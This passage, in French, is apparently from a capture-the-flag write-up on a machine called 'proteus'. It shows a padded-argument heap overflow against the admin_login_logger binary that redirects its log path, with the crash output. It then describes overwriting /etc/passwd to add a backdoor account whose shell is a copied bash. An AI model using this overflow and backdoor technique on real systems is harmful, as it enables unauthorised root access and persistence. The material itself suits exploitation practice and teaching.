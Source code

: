 Ce path est normalement */var/log/proteus/log* mais du coup on peut le contrôler :  

```plain
./admin_login_logger `python3 -c 'print("A"*450 + "/"*10 + "/tmp//yolo.txt")'`
Writing datafile 0x81501d0: '/////tmp//yolo.txt'
*** Error in `./admin_login_logger': free(): invalid next size (normal): 0x08150008 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67377)[0xf7da5377]
/lib/i386-linux-gnu/libc.so.6(+0x6d2f7)[0xf7dab2f7]
/lib/i386-linux-gnu/libc.so.6(+0x6dc31)[0xf7dabc31]
./admin_login_logger[0x8048a14]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xf7d56637]
./admin_login_logger[0x80485d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fd:01 12482883                           /home/nico/Documents/proteus/admin_login_logger
08049000-0804a000 r--p 00000000 fd:01 12482883                           /home/nico/Documents/proteus/admin_login_logger
0804a000-0804b000 rw-p 00001000 fd:01 12482883                           /home/nico/Documents/proteus/admin_login_logger
08150000-08171000 rw-p 00000000 00:00 0                                  [heap]
f7c00000-f7c21000 rw-p 00000000 00:00 0
f7c21000-f7d00000 ---p 00000000 00:00 0
f7d3d000-f7d3e000 rw-p 00000000 00:00 0
f7d3e000-f7eee000 r-xp 00000000 fd:01 9306265                            /lib/i386-linux-gnu/libc-2.23.so
f7eee000-f7ef0000 r--p 001af000 fd:01 9306265                            /lib/i386-linux-gnu/libc-2.23.so
f7ef0000-f7ef1000 rw-p 001b1000 fd:01 9306265                            /lib/i386-linux-gnu/libc-2.23.so
f7ef1000-f7ef4000 rw-p 00000000 00:00 0
f7f08000-f7f24000 r-xp 00000000 fd:01 9310739                            /lib/i386-linux-gnu/libgcc_s.so.1
f7f24000-f7f25000 rw-p 0001b000 fd:01 9310739                            /lib/i386-linux-gnu/libgcc_s.so.1
f7f25000-f7f27000 rw-p 00000000 00:00 0
f7f27000-f7f2a000 r--p 00000000 00:00 0                                  [vvar]
f7f2a000-f7f2c000 r-xp 00000000 00:00 0                                  [vdso]
f7f2c000-f7f4f000 r-xp 00000000 fd:01 9306251                            /lib/i386-linux-gnu/ld-2.23.so
f7f4f000-f7f50000 r--p 00022000 fd:01 9306251                            /lib/i386-linux-gnu/ld-2.23.so
f7f50000-f7f51000 rw-p 00023000 fd:01 9306251                            /lib/i386-linux-gnu/ld-2.23.so
ff8a2000-ff8c3000 rw-p 00000000 00:00 0                                  [stack]
```

On a un crash du à la libération du chunk corrompu à la fin mais le mal est fait.  

On peut écrire dans */etc/passwd* pour l'exploitation, seulement le path destination doit aussi correspondre au shell qui sera exécuté lorsque l'on se connectera avec le compte ajouté.  

La solution que j'ai utilisé est de spécifier une ligne de */etc/passwd* où le shell correspondra à */tmp/backdoor/etc/passwd*. Avec suffisemment de padding le path écrasé sera */etc/passwd* comme attendu et il nous suffira de copier un bash à l'emplacement */tmp/backdoor/etc/passwd* pour rendre notre compte utilisable.  
